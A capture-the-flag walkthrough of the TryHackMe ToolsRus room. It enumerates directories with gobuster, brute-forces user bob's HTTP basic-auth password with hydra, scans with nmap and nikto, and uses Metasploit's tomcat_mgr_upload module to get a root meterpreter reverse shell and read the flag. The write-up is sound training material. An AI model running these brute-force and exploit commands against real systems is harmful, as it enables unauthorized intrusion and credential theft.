# ToolsRus walkthrough (TryHackMe)

---

Nice beginner-friendly room to test your knowledge on nmap, dirbuster, hydra, nikto and Metasploit console.



## Step 1

If we try to access the machine in the browser, we can see this:



Let’s search for hidden directories:


```bash
gobuster dir -u 10.80.135.234 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster_http.txt
```




We are ready to answer Q1:



## Step 2

Let’s check /guidelines in the browser. Here is a message for us:



The name is bob. And this is how we got the answer to Q2:



## Step 3

To answer Q3, check the results of dirbuster. The directory that uses basic authentication is /protected



## Step 4

What is bob’s password to the protected part of the website?

To bruteforce it, we will need hydra. But first let’s check /protected in our browser. We may see an auth panel here:



Using Hydra, we brute-force HTTP basic authentication for the `/protected` directory using the username `bob:`


```kotlin
hydra -l bob -P /opt/metasploit-framework/embedded/framework/data/wordlists/unix_passwords.txt 10.80.135.234 http-get /protected
```


Here we go, the password is retrieved:



NB: if you can’t find the wordlists in the AttackBox, use:


```javascript
find / -name unix_passwords.txt 2>/dev/null
```






## Step 5

Time for Nmap.

There are four ports found: 22, 80, 1234, 8009


```bash
nmap 10.80.135.234
```




What other port that serves a webserver is open on the machine?

Let’s check 8009 in the browser:



The page is not accessible in the browser. Let’s check 1234. This will land you on the Apache Tomcat page:



So, here we are:



## Step 6:

From the page we can clearly see that it is Apache Tomcat (see picture above):



## Step 7:

Let’s run nikto to check the version of Apache-Coyote. Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above:


```bash
nikto -h 10.80.135.234 -p 1234 -id bob:bubbles -root /manager/html
```




We found that the version is 1.1:



If we look at the results of nikto, we can also answer the question about how many documents exist in this directory. As we can see, nikto found 10 items, but only 5 of them appear to be documents.

I got stuck with this question for a bit, because I could clearly see only 4 documents, however, if we count /manager/html it will be 5:

#### /manager/html/

→ main manager document root (not shown in nikto search)

#### /manager/html/localstart.asp

→ startup page (document)

#### /manager/html/manager/

→ manager sub-document directory that serves a page (the Manager interface)

#### /manager/html/manager/manager-howto.html

→ Tomcat documentation page

#### /manager/html/WorkArea/version.xml

→ version information document

## Step 8

What is the server version? For this we need to check nikto with -p 80:


```bash
nikto -h 10.80.135.234 -p 80 -id bob:bubbles -root /manager/html | tee nikto_manager.txt
```






## Step 9

To get our meterpreter shell we will use Metasploit:


```text
msfconsole
```


For this tomcat\_mgr\_upload exploit is suitable:


```bash
use exploit/multi/http/tomcat_mgr_upload
```


Let’s set up the payload:


```bash
set
 RHOSTS 10.80.135.234
set
 RPORT 1234
set
 HttpUsername bob
set
 HttpPassword bubbles
set
 LHOST 10.80.82.242
set
 TARGETURI /manager
run
```




We got our meterpreter session. Now it’s time to check the shell:



Luckily, we are root. So, no privesc needed



## Step 10

Now it’s time to find our flag:


```bash
cd
 /root
ls
cat
 flag.txt
```




Submit the flag.



